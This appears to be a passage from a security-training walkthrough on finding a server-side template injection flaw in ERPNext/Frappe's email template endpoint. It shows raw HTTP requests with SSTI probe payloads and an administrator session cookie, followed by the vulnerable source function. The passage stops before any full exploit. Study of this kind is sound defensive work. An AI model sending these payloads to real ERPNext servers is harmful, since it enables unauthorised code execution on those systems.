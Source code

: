 ```
Referer: http://erpnext:8000/desk
Cookie: user_image=; system_user=yes; user_id=Administrator; full_name=Administrator; sid=63a960ebd19d5a6b6a5215c323fae00017887e50991a732fdbfcf809

template_name=Hacking+With+SSTI&doc=%7B%22name%22%3A%22Hacking+With+SSTI%22%2C%22response%22%3A%22%3Cdiv%3E%7B%7B7*7%7D%7D%3C%2Fdiv%3E%22%2C%22modified%22%3A%222024-08-28+16%3A42%3A59.129341%22%2C%22idx%22%3A0%2C%22docstatus%22%3A0%2C%22modified_by%22%3A%22Administrator%22%2C%22owner%22%3A%22Administrator%22%2C%22doctype%22%3A%22Email+Template%22%2C%22subject%22%3A%22Hacking+With+SSTI%22%2C%22creation%22%3A%222024-08-28+16%3A42%3A59.129341%22%2C%22__last_sync_on%22%3A%222024-08-28T20%3A46%3A05.370Z%22%7D&_lang=
```
We will replace the "{{7*7}}" in the template with "{{ ''.__class__ }}" to determine if we can replicate accessing the class of an empty string as we did in the Python console.

```
POST /api/method/frappe.email.doctype.email_template.email_template.get_email_template HTTP/1.1
Host: erpnext:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Frappe-CSRF-Token: 40d982af267589a752055032bae9b3c93261930c6e99d04e4462a524
X-Frappe-CMD: 
X-Requested-With: XMLHttpRequest
Content-Length: 479
Origin: http://erpnext:8000
Connection: close
Referer: http://erpnext:8000/desk
Cookie: user_image=; system_user=yes; user_id=Administrator; full_name=Administrator; sid=63a960ebd19d5a6b6a5215c323fae00017887e50991a732fdbfcf809

template_name=Hacking+With+SSTI&doc=%7B%22name%22%3A%22Hacking+With+SSTI%22%2C%22response%22%3A%22%3Cdiv%3E%5C%22%7B%7B+''.__class__+%7D%7D%5C%22%3C%2Fdiv%3E%22%2C%22modified%22%3A%222024-08-28+16%3A50%3A32.486689%22%2C%22idx%22%3A0%2C%22docstatus%22%3A0%2C%22modified_by%22%3A%22Administrator%22%2C%22owner%22%3A%22Administrator%22%2C%22doctype%22%3A%22Email+Template%22%2C%22subject%22%3A%22Hacking+With+SSTI%22%2C%22creation%22%3A%222024-08-28+16%3A42%3A59.129341%22%7D&_lang=
```
The server responds with an "Illegal template" error.

To determine the cause of this issue, let's set a breakpoint on the get_email_template function and follow the code execution. We can search for the string "get_email_template", and discover a function in apps/frappe/frappe/email/doctype/email_template/email_template.py.

14  @frappe.whitelist()
15  def get_email_template(template_name, doc):
16          '''Returns the processed HTML of a email template with the given doc'''
17          if isinstance(doc, string_types):
18                  doc = json.loads(doc)
19
20          email_template = frappe.get_doc("Email Template", template_name)
21          return {"subject" : frappe.render_template(email_template.subject, doc),
22                          "message" : frappe.render_template(email_template.response, doc)}
Listing 68 - Reviewing get_email_template function
